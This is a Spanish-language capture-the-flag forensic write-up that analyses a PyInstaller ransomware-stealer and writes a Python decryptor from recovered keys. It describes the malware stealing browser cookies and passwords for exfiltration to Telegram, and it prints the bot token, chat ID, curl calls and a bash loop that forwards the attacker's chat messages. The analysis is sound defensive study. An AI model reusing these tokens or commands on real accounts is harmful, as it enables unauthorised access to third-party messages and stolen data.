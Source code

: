 # Forensic / Black Myth Wukong

Tenemos un AD1 que podemos abrir con FTK Imager o una [extension de 7zip](https://www.tc4shell.com/en/7zip/forensic7z/):

Al parecer el sistema fue infectado con algún malware, en \Users\wukong\Pictures

![odin](https://github.com/user-attachments/assets/c0588d04-5757-4148-b481-68eeb0d62dd0)

En \Users\wukong\AppData\Local\Microsoft\Windows\ hay un ejecutable con el nombre del reto:

![inaryfounded](https://github.com/user-attachments/assets/0feba2c9-b5b5-4863-a1b3-e5ce5356b69e)

El binario resulta ser un ejecutable creado con PyInstaller, se nota por las cadenas que contiene

![python3](https://github.com/user-attachments/assets/240b3599-6d42-4b0b-bb9a-aa15fb28534c)

Se pueden extraer los archivos pyd con [pyinstxtractor](https://github.com/extremecoders-re/pyinstxtractor/) y luego obtener el codigo fuente en python con [pylingual](https://pylingual.io/)

![extractor](https://github.com/user-attachments/assets/f8dccd58-d020-4382-835c-676f767331ac)

![codificador](https://github.com/user-attachments/assets/595b5334-6953-4591-82c7-e71f8fc013c9)

Es un malware que encripta los archivos en varios directorios, los encripta y les añade la extensión .odin; la encriptación se hace con Fernet, XOR y AES en ese orden, el proceso inverso se puede usar para desencriptar las imagenes:

``` python3
from Cryptodome.Cipher import AES
from Cryptodome.Util.Padding import unpad
from cryptography.fernet import Fernet

key_xori = 'y0u_l00k_l1k3_X1sh1_&_b3_my_l4dy'
key_fernet = [b'zTskoYGm68VrSiOM6J9W0PqyKTfSyraM0NydVmJvM_k=', b'pcD23bRQTL1MqLS84NdPsiPdYJlwbTaal6JmulzTq4k=', b'9EBQNDjmy0rGXCbVgVnrgFFsAHk4Ye1M8y1GSIx9CPY=', b'663RnK5l0MQzewfpAQfYhJbL3p7ZRoR-j7I3DkXiUIk=', b'I5Arxkgfo2E56VBVctFjJ-pFkeBbQg6QXMuG-gNgqq4=', b'eXP1sKfkTE9PNkWR8rA9jzJqun80yMYPrzMMi65JQpw=', b'56S9Sv7zUPL71w6N2OTSwxvFl_a-5zvsN6rxQI97UWU=', b'gZcRMaVftMg_F9E4tNQ_etAR7_PKT_vVfWwWkMSxDQc=', b'-XmaKL4uo4p0gM5ARQZtxjZ_5ecK1w53AEkWuiWDIzQ=', b'ikNfBtrrX-9EBI3iKzWnBJW5wNNvi8rM4oT9BLqDJNw=', b'uEikHaHAX1B20aB_bcQwUA0aO21Ai-rgYAqGfKxHKJA=', b'deoHTwNvwTOuQjoy5oh9jN_ZQlLbVCvwI47D3sQt8UA=', b'xuaD7BqwreniKZAvBO38MO250oO40HXboxhU8--6YQ0=', b'X5GfY_zukIDPKxyzmMYFkps-Av8Ao2TQDPmckrjb3ZQ=', b'CAOD7XSW4e-ON33uz5_8h6RZhorDlKg798e1RcEYSlo=', b'dMphwlwO6Qh_FCdbMzseoZsWkQWPFtGx8VSiFAN2SSo=', b'q4NfcRieLIKnyBwFEhUxZcR_8A3BFS_n_cIE8sFX8a4=', b'hLfAPR06xuo545qJlzlYko5f9KKuXOBrCBNgzruTV14=']

def unpad_data(data):
    return unpad(data, AES.block_size)

def aes_decrypt(data, key):
    key = key.encode('utf-8')
    cipher = AES.new(key, AES.MODE_ECB)
    decrypted = unpad_data(cipher.decrypt(data))
    return decrypted

def xor_decrypt(data, key):
    decrypted = bytes([b ^ key[i % len(key)] for i, b in enumerate(data)])
    return decrypted

def decrypt_file(file_path, output_path):
    with open(file_path, 'rb') as enc_file:
        encrypted_data = enc_file.read()
    decrypted_data = aes_decrypt(encrypted_data, key_xori) # AES decryption
    decrypted_data = xor_decrypt(decrypted_data, key_fernet[0]) # XOR decryption
    for key in reversed(key_fernet): # Fernet decryption
        fernet = Fernet(key)
        decrypted_data = fernet.decrypt(decrypted_data)
    
    with open(output_path, 'wb') as dec_file:
        dec_file.write(decrypted_data)

encrypted_file_path = 'wukong.png.odin'
decrypted_file_path = 'wukong.png'
decrypt_file(encrypted_file_path, decrypted_file_path)
print("Decryption done!!")
```

Al aplicarle el cifrado a la imagen de Wukong se obtiene la primera parte de la flag:

![wukong](https://github.com/user-attachments/assets/bec233c8-1e86-4f94-8c4d-17faeef7cda6)

El malware se dirige a múltiples navegadores basados ​​en Chromium (Chrome, Opera, Brave, Edge, etc.). Roba específicamente cookies y contraseñas, luego las descifra y también recopila información detallada del sistema de la máquina de la víctima, como detalles de hardware y sistema operativo, dirección IP y geolocalización. Luego, esta información se comprime en un archivo .zip y se carga en la cuenta de Telegram del atacante mediante la API de Telegram Bot. En el codigo fuente viene el token del bot y el ID del chat del atacante:

``` python
TAPI: str = '7772912370:AAEkDG-RH1tZfNAPRN5nmKIJekvN0tRv06Q'
TCHATID: str = '-4528960795'
``` 

Con `curl -v "https://api.telegram.org/bot7772912370:AAEkDG-RH1tZfNAPRN5nmKIJekvN0tRv06Q/getMe"
` obtenemos informacion del bot, incluyendo su nombre para buscarlo por telegram:
```

{"ok":true,"result":{"id":7772912370,"is_bot":true,"first_name":"Black M\u00eat \u01afukong","username":"blackmeetwukongbot","can_join_groups":true,"can_read_all_group_messages":false,"supports_inline_queries":false,"can_connect_to_business":false,"has_main_web_app":false}}

```

![bot](https://github.com/user-attachments/assets/07cf8eb5-5ad7-42ad-ab0b-b10a726fee77)

Con `curl -v "https://api.telegram.org/bot7772912370:AAEkDG-RH1tZfNAPRN5nmKIJekvN0tRv06Q/getUpdates"` obtienes el historial de tu chat con el bot, y entre la información el ID de tu chat, en mi caso fue `1181335955`

Con esto hacemos un script para redirigir los ultimos 100 mensajes del chat del atacante con el bot a nosotros:
``` bash
for i in $(seq 1 100); do
  response=$(curl -X POST -H "Content-Type: application/json" \
    -d "{\"from_chat_id\":\"-4528960795\", \"chat_id\":\"938182349\", \"message_id\":\"$i\"}" \
    "https://api.telegram.org/bot7772912370:AAEkDG-RH1tZfNAPRN5nmKIJekvN0tRv06Q/forwardMessage")
  status=$?
  if [ $status -ne 0 ]; then
    echo "Error al reenviar el mensaje $i: $response"
  else
    echo "Mensaje $i reenviado correctamente."
  fi
  sleep 0.1 # Agrega un retraso de 0.1 segundos
done
```

En uno de los mensajes recuperados se encontraba un [repositorio de github](https://github.com/QmxhY2sgTWVIdCBXdWtvbmc/):

![githab](https://github.com/user-attachments/assets/8adefeae-9622-4bf4-bca8-1e9092e8f7bd)

El repositorio contiene el código fuente del malware y, en la parte inferior del código, hay un comentario con un texto codificado en base85. Cuando se descifra, revela la segunda parte de la bandera.

`wwf{1_D0WN104D3D_correct_814CK_MY7H_WUK0N6}`








